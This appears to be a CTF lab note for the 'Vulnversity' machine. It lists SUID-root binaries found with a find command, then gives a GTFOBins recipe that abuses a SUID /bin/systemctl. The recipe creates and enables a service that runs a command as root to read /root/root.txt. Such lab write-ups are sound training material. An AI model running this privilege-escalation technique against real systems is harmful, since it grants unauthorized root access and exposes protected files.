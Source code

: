 # Machine : Vulnversity
# TITLE :  PrivilegeList

## command : find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap <br>
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn <br>
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap <br>
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo <br>
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh <br>
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd <br>
-rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec <br>
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp <br>
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd <br>
-rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/ snap-confine <br>
-rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/ policykit-1/polkit-agent-helper-1 <br>
-rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign <br>
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device <br>
-rwsr-xr-x 1 root root 76408 Jul 17  2019 /usr/lib/squid/pinger <br>
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper <br>
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic <br>
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su <br>
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g <br>
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount <br>
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6 <br>
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount <br>
***-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl*** <br>
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping <br>
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount <br>
-rwsr-xr-x 1 root root 35600 Mar  6  2017 /sbin/mount.cifs <br>

# GTFObin "/bin/systemctl" privilege escalte command     
  &nbsp; TF=$(mktemp).service <br>
  &nbsp; echo '[Service] <br>

  &nbsp; Type=oneshot <br>
  &nbsp; ExecStart=/bin/sh -c "cat /root/root.txt >> /tmp/output.txt" <br>
  &nbsp; [Install] <br>
  &nbsp; WantedBy=multi -user.target' > $TF <br>
  
  &nbsp; /bin/systemctl link $TF <br>
  &nbsp; /bin/systemctl enable --now  $TF <br>

  <p>ExecStart를 이용해 명령어 관리자 권한으로 수행되는 명령어를 실행할 수 있음</p>